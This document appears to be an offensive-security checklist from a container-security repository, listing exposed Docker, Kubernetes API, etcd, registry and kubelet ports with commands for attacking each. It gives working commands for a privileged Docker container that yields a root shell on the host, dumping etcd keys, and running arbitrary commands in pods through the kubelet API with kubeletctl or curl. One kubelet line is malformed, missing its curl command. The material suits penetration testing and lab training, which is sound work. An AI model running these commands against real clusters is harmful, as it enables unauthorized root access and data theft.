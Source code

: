 # External Attacker Checklist

External attackers are typically looking for listening services. The list below is likely container related service ports and notes on testing/attacking them.

## 2375/TCP - Docker

This is the default insecure Docker port. It's an HTTP REST API, and usually access results in root on the host.

### Testing with Docker CLI

The easiest way to attack this is just use the docker CLI.

* `docker run -H tcp://[IP]:2375 info` - This will confirm access and return some information about the host
* `docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - From [this](https://zwischenzugs.com/2015/06/24/the-most-pointless-docker-command-ever/) post. This will drop you into a root shell on the host.

---

## 2376/TCP - Docker

This is the default port for the Docker daemon where it requires credentials (client certificate), so you're unlikely to get far without that. If you do have the certificate and key for access :-

* `docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem -H=[IP]:2376 info` - format for the info command to confirm access.
* `docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem -H=[IP]:2376 run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - root on the host

---

## 443/TCP, 6443/TCP, 8443/TCP - Kubernetes API server

Typical ports for the Kubernetes API server.

### Testing for access

Access to the `/version` endpoint will often work without valid credentials (using curl), as this is made available to unauthenticated users.

* `kubectl --insecure-skip-tls-verify --username=system:unauthenticated -shttps://[IP]:[PORT] version` - Test for access with kubectl
* `curl -k https://[IP]:[PORT]/version` - Test for access with curl

### Checking permissions

It's possible that unauthenticated users have been provided more access. You can check what permissions you have with

* `kubectl --insecure-skip-tls-verify --username=system:unauthenticated -shttps://[IP]:[PORT] auth can-i --list`

### Getting privileged access to cluster nodes

In the event that you have create pods access without authentication, see [attacker manifests](attacker_manifests.md) for useful approaches.

---

## 2379/TCP - etcd

The authentication model used by etcd, when supporting a Kubernetes cluster, is relatively straightforward. It uses client certificate authentication where **any** certificate issued by it's trusted CA will provide full access to all data. In terms of attacks, there are two options unauthenticated access and authenticated acces.

### Unauthenticated Access
**You can try out this attack using Kube Security Lab, using the etcd-noauth.yml playbook [here](https://github.com/raesene/kube_security_lab)**

A good general test for this is to use curl to access the `/version` endpoint. Although most endpoints don't respond well to curl in etcdv3, this one will and it'll tell you whether unauthenticated access is possible or not.

```bash
curl [IP]:2379/version
```

If that returns version information, it's likely you can get unauthenticated access to the database. A good first step is to drop all the keys in the database, using etcdctl. First you need to set this environment variable so that etcdctl knows it's talking to a v3 server.

```bash
export ETCDCTL_API=3
```

Then this command will enumerate all the keys in  the database

```bash
etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://[IP]:2379 get / --prefix --keys-only
```

with a list of keys to hand the next step is generally to find useful information, for further attacks.

---

## 5000/TCP - Docker Registry

Generally the goal of attacking a Docker registry is not to compromise the service itself, but to gain access to either read sensitive information stored in container images and/or modify stored container images.

### Enumerating repositories/images

Whilst you can do this with just curl, it's probably more efficient to use some of the [registry interaction tools](tools_list.md#container-registry-tooling). For example  `go-pillage-reg` will dump a list of the repositories in a a registry as well as the details of all the manifests of those images.


---

## 10250/TCP - kubelet
**You can try out this attack using Kube Security Lab, using the rwkubelet-noauth.yml playbook [here](https://github.com/raesene/kube_security_lab)**

The main kubelet port will generally be present on all worker nodes, and *may* be present on control plane nodes, if the control plane components are deployed as containers (e.g. with kubeadm). Usually authentication to this port is via client certificates and there's usually no authorization in place.

Trying the following request should either give a 401 (showing that a valid client certificate is required) or return some JSON metrics information (showing you have access to the kubelet port)

```bash
curl -k https://[IP]:10250/metrics
```

Assuming you've got access you can then execute commands in any container running on that host. As the kubelet controls the CRI (e.g. Docker) it's typically going to provide privileged access to all the containers on the host.

The easiest way to do this is to use Cyberark's [kubeletctl](https://github.com/cyberark/kubeletctl). First scan the host to show which pods can have commands executed in them

```bash
kubeletctl scan rce --server [IP]
```

Then you can use this command to execute commands in one or more of the vulnerable pods. just replace `whoami` with the command of your choice and fill in the details of the target pod, based on the information returned from the scan command

```bash
 kubeletctl run "whoami" --namespace [NAMESPACE] --pod [POD] --container [CONTAINER] --server [IP]
```

If you don't have `kubeletctl` available but do have `curl` you can use it to do the same thing. First get the pod listing

```bash
curl -k https://[IP]:10250/pods/ | jq
```

From that pull out the namespace, pod name and container name that you want to run a command in, then issue this command filling in the blanks appropriately

```bash
https://[IP]:10250/run/[Namespace]/[Pod]/[Container] -k -XPOST -d "cmd=[COMMAND]"
```

---

## 10255/TCP - kubelet read-only

The kubelet read-only port is generally only seen on older clusters, but can provide some useful information disclosure if present. It's an HTTP API which will have no encryption and no authentication requirements on it, so it's easy to interact with.

The most useful endpoint will be `/pods/` so retrieving it using curl (as below) and looking at the output for useful information, is likely to be the best approach.


```bash
curl http://[IP]:10255/pods/ | jq
```
